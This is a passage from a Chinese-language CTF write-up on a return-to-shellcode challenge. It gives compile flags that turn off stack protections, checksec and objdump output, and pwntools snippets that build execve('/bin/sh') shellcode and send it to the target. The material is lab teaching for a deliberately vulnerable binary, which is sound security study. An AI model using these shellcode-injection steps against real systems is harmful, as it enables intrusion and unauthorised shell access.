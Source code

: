 ```cpp
    return 0;
}
```

### Makefile

`gcc -fno-stack-protector -no-pie -z execstack ret2sc.c -o ret2sc`

### 考点

Return to Shellcode，将shellcode地址写入到返回地址处

### 分析

1. `checksec`分析

   ```shell
   [*] '/ctf/work/ret2sc'
       Arch:     amd64-64-little
       RELRO:    Partial RELRO
       Stack:    No canary found
       NX:       NX disabled
       PIE:      No PIE (0x400000)
       RWX:      Has RWX segments
   ```

2. `objdump`查找`message`变量地址

   `message`变量的地址也就是我们传入的shellcode的地址：`0x404060`

   ```
     4011a4:       ba 30 00 00 00          mov    edx,0x30
     4011a9:       48 8d 35 b0 2e 00 00    lea    rsi,[rip+0x2eb0]        # 404060 <message>
     4011b0:       bf 00 00 00 00          mov    edi,0x0
   ```

3. 写shellcode的方法

   1. pwntool 工具里封装好的shellcode

      ```python
      context.arch = "amd64"
      sc = asm(shellcraft.sh())
      r.send(sc)
      ```

   2. 汇编代码编写

      ```python
      sc = asm('''
      	mov rax,0x68732f6e69622f
      	push rax
      	mov rdi,rsp
      	xor rsi,rsi
      	xor rdx,rdx
      	mov rax,0x3b
      	syscall
      	''')
      r.send(sc)
      ```


[^1]: 是执行到这句`printf("Thank you %s!\n", name);`才跳转到shellcode
[^2]: 这些片段也称为 *gadget*